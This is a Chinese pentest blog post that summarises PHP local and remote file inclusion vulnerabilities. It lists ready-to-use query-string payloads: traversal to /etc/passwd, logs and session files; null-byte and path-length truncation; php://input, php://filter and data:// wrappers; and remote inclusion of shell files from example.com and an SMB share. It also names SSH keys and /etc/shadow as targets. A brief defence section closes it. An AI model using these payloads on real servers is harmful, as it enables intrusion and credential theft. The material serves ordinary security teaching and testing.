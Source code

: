 ```yaml
---
author: 星火燎原@vxhly
title: PHP 文件包含漏洞总结
categories: [pentest]
tags: [PHP, Security, Pentest]
date: 2017-04-02 16:31:38
---
```


::: tip
PHP 文件包含漏洞的产生原因是在通过 PHP 的函数引入文件时, 由于传入的文件名没有经过合理的校验, 从而操作了预想之外的文件, 就可能导致意外的文件泄露甚至恶意的代码注入
:::
<!-- more -->

## 常见文件包含函数

* **include()**: 执行到 include 时才包含文件, 找不到被包含文件时只会产生警告, 脚本将继续执行
* **require()**: 只要程序一运行就包含文件, 找不到被包含的文件时会产生致命错误, 并停止脚本
* **include_once()**和**require_once()**: 若文件中代码已被包含则不会再次包含

## 利用条件

程序用 include() 等文件包含函数通过动态变量的范式引入需要包含的文件 用户能够控制该动态变量

注: PHP 中只要文件内容符合 PHP 语法规范, 包含时不管扩展名是什么都会被 PHP 解析, 若文件内容不符合 PHP 语法规范则会暴漏其源码。

## 漏洞危害

* 执行任意代码
* 包含恶意文件控制网站
* 甚至控制服务器

## 漏洞分类

* 本地文件包含: 可以包含本地文件, 在条件允许时甚至能执行代码

-- 上传图片马, 然后包含
-- 读敏感文件, 读 PHP 文件
-- 包含日志文件 GetShell
-- 包含 /proc/self/envion 文件 GetShell
-- 包含 data: 或 php://input 等伪协议
-- 若有 phpinfo 则可以包含临时文件

* 远程文件包含: 可以直接执行任意代码

-- 要保证 php.ini 中 allow_url_fopen 和 allow_url_include 要为 On

## 普通本地文件包含

``` php
<?php include("inc/" . $_GET['file']);?>
```

### 攻击方式

#### 包含同目录下的文件

::: tip
?file=.htaccess
:::

#### 目录遍历

::: tip
?file=../../../../../../../../../var/lib/locate.db<br>
?file=../../../../../../../../../var/lib/mlocate/mlocate.db<br>
(linux 中这两个文件储存着所有文件的路径, 需要 root 权限)
:::

#### 包含错误日志

::: tip
?file=../../../../../../../../../var/log/apache/error.log
:::

#### 获取 web 目录或者其他配置文件

::: tip
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
:::

#### 包含上传的附件

::: tip
?file=../attachment/media/xxx.file
:::

#### 读取 session 文件

::: tip
?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7<br>
(session 文件一般在 /tmp 目录下, 格式为 `sess\_[your phpsessid value]` , 有时候也有可能在/var/lib/php5 之类的, 在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值, 也许你能够获得一个 shell)
:::

#### 系统中重要文件(需要 root 权限)

* `/root/.ssh/authorized_keys` 
* `/root/.ssh/id_rsa` 
* `/root/.ssh/id_rsa.keystore` 
* `/root/.ssh/id_rsa.pub` 
* `/root/.ssh/known_hosts` 
* `/etc/shadow` 
* `/root/.bash_history` 
* `/root/.mysql_history` 
* `/proc/self/fd/fd[0-9]* (文件标识符)` 
* `/proc/mounts` 
* `/proc/config.gz` 

## 有限制的本地文件包含

``` php
<?php include("inc/" . $_GET['file'] . ".htm");?>
```

### 攻击方式

#### %00 截断

::: tip
?file=../../../../../../../../../etc/passwd%00<br>
(需要 magic_quotes_gpc=off, PHP 小于 5.3.4 有效)
:::

#### %00 截断目录遍历

::: tip
?file=../../../../../../../../../var/www/%00<br>
(需要 magic_quotes_gpc=off, unix 文件系统, 比如 FreeBSD, OpenBSD, NetBSD, Solaris)
:::

#### 路径长度截断: 

::: tip
?file=../../../../../../../../../etc/passwd/././././././.[...]/./././././.<br>
(php 版本小于 5.2.8(?)可以成功, linux 需要文件名长于 4096, windows 需要长于 256)
:::

#### 点号截断: 

::: tip
?file=../../../../../../../../../boot.ini/.........[...]............<br>
(php 版本小于 5.2.8(?)可以成功, 只适用 windows, 点号需要长于 256)
:::

## 普通远程文件包含

``` php
<?php include($_GET['file']);?>
```

### 攻击方式

#### 远程代码执行: 

::: tip
?file=[http|https|ftp]\://example.com/shell.txt<br>
(需要 allow_url_fopen=On 并且 allow_url_include=On)
:::

#### 利用 php 流 input: 

::: tip
?file=php://input<br>
(需要 allow_url_include=On)
:::

#### 利用 php 流 filter: 

::: tip
?file=php://filter/convert.base64-encode/resource=index.php<br>
(需要 allow_url_include=On)
:::

#### 利用 data URIs: 

::: tip
?file=data://text/plain; base64, SSBsb3ZlIFBIUAo=<br>
(需要 allow_url_include=On)
:::

#### 利用 XSS 执行任意代码: 

::: tip
?file=<http://127.0.0.1/path/xss.php?xss=phpcode><br>
(需要 allow_url_fopen=On, allow_url_include=On 并且防火墙或者白名单不允许访问外网时, 先在同站点找一个 XSS 漏洞, 包含这个页面, 就可以注入恶意代码了。条件非常极端和特殊- -)
:::

## 有限制的远程文件包含

``` php
<?php include($_GET['file'] . ".htm");?>
```

::: tip
?file=<http://example.com/shell><br>
?file=<http://example.com/shell.txt?><br>
?file=<http://example.com/shell.txt%23><br>
(需要 allow_url_fopen=On 并且 allow_url_include=On)<br>
?file=\evilshare\shell.php (只需要 allow_url_include=On)
:::

## 延伸

其实在前面也说了, 这些漏洞产生原因是 PHP 函数在引入文件时, 传入的文件名没有经过合理的校验, 从而操作了预想之外的文件。实际上我们操作文件的函数不只是 include()一个, 上面提到的一些截断的方法同样可以适用于以下函数: 

* **fopen**
* **file_get_contents**
* **copy**
* **parse_ini_file**
* **readfile**
* **file_put_contents**
* **mkdir**
* **tempnam**
* **move_uploaded_file**
* **rename**
* **unlink**
* **rmdir**
* **require**
* **require_once**
* **include_once**
* **ZipArchive::open()**

## 漏洞防御

* PHP 中使用 open_basedir 配置, 将访问限制在指定区域
* 过滤 `./\` 
* 禁止服务器远程文件包含

